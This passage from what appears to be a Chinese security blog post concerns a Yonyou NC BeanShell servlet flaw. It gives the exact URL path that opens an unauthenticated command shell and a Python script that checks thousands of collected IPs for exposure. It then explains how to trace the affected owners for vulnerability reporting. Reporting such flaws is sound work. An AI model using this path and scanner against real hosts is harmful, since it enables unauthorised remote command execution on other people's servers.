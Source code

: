 该漏洞复现非常简单,只需要在ip后加上/servlet/~ic/bsh.servlet.BshServlet,就可以进入shell界面任意执行命令如下:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV3D3pqyDRNN5IibjictibzCXpdBciaribG6sduLVIQd0rzdicVAboxX2tfqP65a84WZoblibXQysbBtHBVg/640?wx_fmt=png&from=appmsg "")  
  
### 脚本编写:  
  
该漏洞复现起来非常方便,这也是我选择它的原因之一,在我们在资产收集到几千个IP后,需要用脚本对它们进行验证,看是否存在该路径,当然这个脚本也很好写,毕竟复现起来简单嘛,我就随意写了一个,代码如下:  
```
# author:soufaker# time:2021/08/17import requestspy_str = "/servlet/~ic/bsh.servlet.BshServlet"head = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0'        }success_code = []withopen('NC.txt', 'r', encoding="utf-8") as f:    for i in f:        if i[0:4] != 'http':            py_url = 'http://' + (i.strip('\n')) + py_str        else:            py_url = (i.strip('\n')) + py_str        print(py_url)        try:            x = requests.get(py_url, allow_redirects=False, headers=head, timeout=2)            if x.status_code == 200:                success_code.append(py_url)                print("ok")        except:            print('无法连接')            continueprint(success_code)withopen('success.txt', 'w+', encoding="utf-8") as f:    for s in success_code:        f.writelines(s + '\n')
```  
### 漏洞地址收集:  
  
我们使用脚本将收集到的IP拿去过滤,最后得到success.txt的文件就全部是有该漏洞的文件啦,然后就可以提交漏洞去了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV3D3pqyDRNN5IibjictibzCXp7P8Ir6RTRj9JVVYfhHiabjnnDOzJWkpvFibvYMvD47618hj1uxmbfFSg/640?wx_fmt=png&from=appmsg "")  
  
##   
## 四、IP归属查询  
### 1.icp查询  
  
常规查询网站icp备案查询:  
https://beian.miit.gov.cn/#/Integrated/index,这个都是大家都知道的方式了,不多说了  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV3D3pqyDRNN5IibjictibzCXpDONXzR5eCwFPtbRnVrpDP5eQsEvhGcNAjAJXznKg8UA8Bf90XiakhDg/640?wx_fmt=png&from=appmsg "")  
### 2.界面提示信息查询。  
  
这种情况就像在遇到IP地址查不到备案的时候,像本次的用友NC,我们就需要进入他的登录页面去查询,很多都会把公司的名字给暴露出来如下图,这里是下载的ucclient,然后在ucclient中访问的页面,由于web页面那的环境太难搞了,所以采用这种方式,然后配合天眼查寻该系统提示信息,如果能唯一确认那就可以证明归属啦:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV3D3pqyDRNN5IibjictibzCXp5lpQtxicEtfNKnEq97dFVyF4VOW1d9J5IgFbUoXBgpibarTu284ictNCg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV3D3pqyDRNN5IibjictibzCXpRiaichCUDG0dWlYvFox7ibyh6y69YlDQQAJrtgXQ5k4uLJCuHGaXTZXyw/640?wx_fmt=png&from=appmsg "")  
  
  
  
我们是神农安全，  
**点赞 + 在看**  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  